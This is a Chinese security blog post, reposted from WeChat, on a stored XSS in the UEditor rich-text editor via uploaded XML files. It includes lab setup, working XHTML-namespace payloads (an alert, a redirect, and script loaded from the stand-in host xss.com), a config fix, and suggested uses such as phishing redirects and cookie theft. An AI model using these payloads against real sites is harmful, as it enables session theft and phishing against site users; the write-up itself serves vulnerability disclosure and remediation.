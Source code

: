\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzAxMzg4NDg1NA==&mid=2247484014&idx=1&sn=456750ac618e992f59476173441ce0f1&chksm=9b9a8eb7aced07a14ba1d71602faabafaa3fea898c0d8f6a75e5b1dd5393c0fcd520027ace95&mpshare=1&scene=1&srcid=1013988WS4r6iiFhnhQwQgBI&sharer\_sharetime=1602549213049&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=68e9243f129238454bc3624948fc63c450fccca27c8899d461e4e2d740e200f016569ea52d151eed47b2d388461e2c5b6c8f3879ca1315b159a23e03fa0e87e5ef8297bc3bba301ddaa34c1f87238a3b21f3953bbb494d2ebcdfc82386915edf41e8753327229009446dd94f73a53254fc357ded25ac20e986aad99523c9f7e1&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AZ%2Bwcl5mEJlHUAHFxcMASvA%3D&pass\_ticket=2G6SwO4uyYCX4aTiQDJvW1D1IrAJXn1CnpH%2BbX1rykSOMZNKPaotYwa2vyHnTBud&wx\_header=0)

上个月测试某个系统碰到了，以为是 0day，Google 了下发现早已有人发过了。见：

https://blog.csdn.net/qq\_39101049/article/details/97684968  

**下载源码并搭建环境**  

----------------

测试版本：php 版 v1.4.3.3，jsp 版 (当时忘了看版本)

下载地址：https://github.com/fex-team/ueditor

IP：192.168.10.1

自定义的目录：ueditor1433(实际过程中请注意观察)

不用安装和配置，直接打开就用，不过上传文件的路径需要注意下

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfydhiawYTQxzNWznNWWOlb5rLahQ3akyic6RXoAtrW0qAz7yLcqR5YqVlC037HEWnuyHibgkLdrY20Q/640?wx_fmt=png)

**测试过程**
--------

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfydhiawYTQxzNWznNWWOlb5m5GhicA5uQrMpMxR5bLARnqb6MoSVVshzZly1icP6qmmdwTyPMP35JkA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfydhiawYTQxzNWznNWWOlb56Df3KkdXFSDNuz1wSA1H21B69lluuJqJqkS67tZp2q7fFys4xYSSVw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfydhiawYTQxzNWznNWWOlb5QFLduMksqQtxk4jvUnutZXp14PtYdFJKtJ0d10NKdrx1mOpTNeicHSw/640?wx_fmt=png)

访问触发弹窗，可以改成下面其他代码测试

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfydhiawYTQxzNWznNWWOlb5nw1SGZZHKpdUic6NOnRzFyFDL8VXCCsmTkuDD1MEUFYGJbcZgumLwtg/640?wx_fmt=png)

有时候上传访问不了找不到路径可以访问如下 url 把文件目录列出来再拼接，实际过程中请注意 controller.xxx 的访问路径

```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>
</body>
</html>
URL跳转
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
window.location.href="https://www.t00ls.net/";
</something:script>
</body>
</html>
远程加载Js
<html>
<head></head>
<body>
<something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml">
</something:script>
</body>
</html>
```

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfydhiawYTQxzNWznNWWOlb5snIbPTmWKUb01kBj8ChVwZrc2X8ubmQNicMlNcKFMjMhy2R710uDjxA/640?wx_fmt=png)

**常见利用代码**
----------

```
弹窗
```

```
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>
</body>
</html>
URL跳转
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
window.location.href="https://www.t00ls.net/";
</something:script>
</body>
</html>
远程加载Js
<html>
<head></head>
<body>
<something:script src="http://xss.com/xss.js" xmlns:something="http://www.w3.org/1999/xhtml">
</something:script>
</body>
</html>
```

**漏洞修复**
--------

可以看到在 config.json 配置文件里 xml 文件类型默认是可被上传的，所以去掉重启下应用或者服务器就好了

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqfydhiawYTQxzNWznNWWOlb5eZRSibUMWZnvibBtMf3Xq7bueTz7IiaSz8lOocWh5IADoTtTdtuRoXkAQ/640?wx_fmt=png)

**实战意义**
--------

个人认为这个洞危害不是很大，不过可应用于以下实战场景，如果有其他好玩的场景或者组合拳大牛萌可以回复

*   **安服仔实在没漏洞的时候凑漏洞**
    
*   **URL 跳转钓鱼**
    
*   **远程加载 js 打 Cookie 或者其他操作**